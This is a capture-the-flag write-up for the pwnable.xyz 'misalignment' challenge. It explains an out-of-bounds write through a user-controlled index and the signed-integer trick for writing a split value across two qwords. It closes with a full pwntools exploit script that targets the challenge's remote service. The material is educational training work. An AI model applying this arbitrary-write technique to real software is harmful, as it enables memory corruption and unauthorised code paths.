




# pwnable.xyz - misalignment
Link to binary: https://pwnable.xyz/redisfiles/challenge_24.gz

Description: *Try not using a debugger for this one.*
 
## binary
The binary is a **64-bit** ELF, with all the basic protections enabled.


## ./challenge
Running the binary doesn't output anything and just expects some input. Let's decompile with **IDA** to have a better look.

## IDA
### main()


On a first glance, the program looks similar to the **add** challenge, but seems to require a basic understanding of alignment (thus the challenge name). It reads 3 long integer values from the user in the format of **"%ld %ld %ld"**, where the third value `s[6]` is used as an index to the `s[]` buffer, as seen in *line 11*: `s[s[6] + 7] = s[4] + s[5];` of the `main` function.

Similarly to the **add** challenge, we need to call the `win()` function which prints the flag. Specifically, the program checks if the value of `&s[1] + 7` is equal to `0xb000000b5`, as seen at *line 14*, and if true, it calls `win()`.

## vulnerability
The issue here lies in *line 11*, which allows for **arbitrary writes** through the `s[]` buffer, since we control the value of `s[6]` which is used as an **index**.

## attack plan
We need to write the value `0xb000000b5` at `s[1] + 7`.  

In x86_64 architecture, the data in memory is aligned in **qwords** which are **8 bytes** long and since this is **little-endian** the first byte that we need to write in memory is `0xb5`. The alignment is an issue though, because the first byte must be written at `s[1] + 7` (which is the 8th byte of that qword) and the following bytes should be written at the next qword(s). So in order to write the correct value and at the correct place in memory we need to do **2 separate writes**.

* The first one will be the value `0xb500000000000000`, which will be written at bytes `s[1] + 7` through `s[1] + 0`
* The second one will be the value '0xb000000', which will be written at bytes `s[2] + 7` through `s[2] + 4`.

So after these writes the memory should look like this:  

**s[2]:**
| | | | | b0 | 00 | 00 | 00 |
| :-----------: | :-----------: |  :-----------: | :-----------: | :-----------: | :-----------: |  :-----------: | :-----------: |
| 7 | 6 | 5 | 4 | 3 | 2 | 1 | 0 |

**s[1]:**
| b5 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |
| :-----------: | :-----------: |  :-----------: | :-----------: | :-----------: | :-----------: |  :-----------: | :-----------: |
| 7 | 6 | 5 | 4 | 3 | 2 | 1 | 0 |

We figured out **what** and **where** to write. The program accepts as input 3 long integers where the sum of the first two `s[4] + s[5]` is the value to be written and the third one increased by 7 `s[6] + 7` is the (arbitrary) index of the `s[]` buffer where the value will be written at.  

But there is still one problem.  
Long integer data type in C is 8-byte long (64 bits), which means that it has a value range of `-9,223,372,036,854,775,807` to `9,223,372,036,854,775,807`, if signed like in this case.  
The decimal value of `0xb500000000000000` is `13,042,424,520,864,956,416` which is too large to represent with a signed long integer.  

Luckily, we can use a negative value instead, causing an underflow. To calculate the correct value we can just use:  
`p 0 - 13042424520864956416` in gdb which gives a result of `5404319552844595200`.  
Now if we try to print the negative of that value as hex:  
`p/x -5404319552844595200` we get `$1 = 0xb500000000000000`, so we verified that the value is correct.

## debugging
The description says to not use a debugger, but we're going to ***ch34t***.

First we send the following values:
`-5404319552844595200 0 -6`, where `-6` is the value of `s[6]`, so that we can write at `s[s[6] + 7] = s[-6 + 7] = s[1]`

Disassembling `main()` we see the instruction that writes the value:  
`<+182>:	mov    QWORD PTR [rbp+rax*8-0x98],rdx`  
where `rdx` contains the value to be written and `rax` is the index of the buffer (0 in this case).  


Next, we send `184549376 0 -5`, where `184549376` is the decimal value of `0xb000000` and `-5` allows us to write at `s[2]`.  


Now we only need to send an invalid input to exit the while loop and we get the flag.

## exploit
```python  
#!/usr/bin/python
from pwn import *

elf = context.binary = ELF("./challenge", checksec=False)
context.terminal = ['alacritty', '-e']
context.encoding = 'ascii'
context.gdbinit = '~/.config/gdb/.gdbinit'

gs = \
'''
b *main+51
b *main+221
'''

IP = "svc.pwnable.xyz"
PORT = 30003

def start(logging='notset'):
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    elif args.REMOTE:
        return remote(IP, PORT, level=logging)
    else:
        return process(elf.path, level=logging)

def pwn():
    io = start()
    io.sendline("-5404319552844595200 0 -6")
    io.sendline("184549376 0 -5")
    io.sendline("\0")
    print(io.recvall())

if __name__ == "__main__":
    pwn()
```

`FLAG{u_cheater_used_a_debugger}`
  
\>.>